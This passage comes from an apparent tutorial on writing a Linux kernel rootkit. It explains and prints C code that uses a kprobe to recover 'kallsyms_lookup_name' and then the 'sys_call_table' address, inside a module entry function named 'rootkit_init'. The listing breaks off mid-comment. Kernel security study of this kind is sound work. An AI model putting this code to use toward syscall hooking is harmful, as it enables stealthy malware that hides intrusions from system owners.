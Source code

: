 ```c
/* // Lookup the address for a symbol. Returns 0 if not found.
* unsigned long kallsyms_lookup_name(const char *name);
*/
typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

kallsyms_lookup_name_t kallsyms_lookup_name;
```
Function, `register_kprobe()` specifies where the probe is to be inserted and what handler is to be called when the probe is hit.
```c
register_kprobe(&kp);
```
To get the address of `kallsyms_lookup_name` symbol. As soon as storing of address of original `kallsyms_lookup_name` is done. No need of kprobes from now, so unregistering it.
```c
kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;

unregister_kprobe(&kp);
```
As we have got the address of `kallsyms_lookup_name` symbol, now we can use this to get the address of `syscall table`.
```c
syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```
d) So the full code:
```c
#include <linux/init.h>		/* Needed for the macros */
#include <linux/module.h>	/* Needed by all modules */
#include <linux/kernel.h>	/* Needed for printing log level messages */
#include <linux/kprobes.h>

// Setting which dynamic kernel symbol to find
  static struct kprobe kp = {
	    .symbol_name = "kallsyms_lookup_name"
  };

  // =================== Entry Function ====================

static int __init rootkit_init(void)
{
	// For storing address of sys_call_table
	unsigned long *syscall_table;

	// Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)

	/* // Lookup the address for a symbol. Returns 0 if not found.
	 * unsigned long kallsyms_lookup_name(const char *name);
	 */
	typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

	kallsyms_lookup_name_t kallsyms_lookup_name;

	// register_kprobe() specifies where the probe is to be inserted and what handler is to be called when the probe is hit.
	register_kprobe(&kp);

       /*
    * // pwd: /lib/modules/5.11.0-49-generic/build/include/linux/kprobes.h
    * // https://elixir.bootlin.com/linux/v5.11/source/include/linux/kprobes.h#L62
    *
    * struct kprobe {
    *       ...
    *
```